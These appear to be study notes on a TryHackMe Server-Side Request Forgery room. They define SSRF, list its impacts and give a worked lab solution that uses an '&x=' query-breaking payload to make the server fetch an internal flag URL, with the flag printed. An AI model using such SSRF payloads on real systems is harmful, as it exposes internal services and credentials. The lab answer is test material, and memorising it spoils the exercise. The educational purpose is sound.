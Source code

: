[[Bug]]

## **What is an SSRF?**

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## **Types of SSRF**

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

## **What's the impact?**

A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.



(task 2 from AI)

### Task: Exploiting SSRF to get the flag

In the mock browser provided by the room, the application sends a request to the URL in the `server` parameter. The bottom bar shows exactly which request is being sent by `website.thm`.

Given:

```
https://website.thm/item/2?server=api
```

The application requests:

```
https://api.website.thm/api/item?id=2
```

---

### Goal

Force the web server to fetch:

```
https://server.website.thm/flag?id=9
```

so that it returns the flag.

---

### Problem

If you simply replace `server` with `https://server.website.thm/flag?id=9`, the resulting URL in the server request becomes malformed. It appends the rest of the path/query from the original request to your injected URL, creating something like:

```
https://server.website.thm/flag?id=9.website.thm/api/item?id=2
```

which causes a `404` error.

---

### Solution: Using `&x=` Trick

To stop the application from appending its default `/api/item?id=2`, you can terminate the query string by adding `&x=` to the end of your payload.

**Correct URL:**

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

Now, the request sent by `website.thm` is clean:

```
https://server.website.thm/flag?id=9
```

and you will receive the flag response:

```
THM{SSRF_MASTER}
```

---

### Final Answer

- Injected URL:
    

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

- Flag:
    

```
THM{SSRF_MASTER}
```

---

### Why This Works

- The application appends additional path/query to whatever you supply in `server`. Adding `&x=` breaks that process by finishing the query string, so the rest of the URL is ignored.
    
- Encoding tricks (like `%3F` and `%3D`) are often insufficient in this lab; the `&x=` method is the cleanest and most reliable path to isolate the request.
    

---

### Key Takeaways

- In real SSRF scenarios, query breaking via `&` is a classic technique.
    
- Always watch how the server _actually_ constructs the outbound request — especially with any debugging bar like the one given in this room.
    
- Control the full path/query string to direct requests precisely where you want.
    

---

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
================================================

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png)  

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

  

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.


## reports
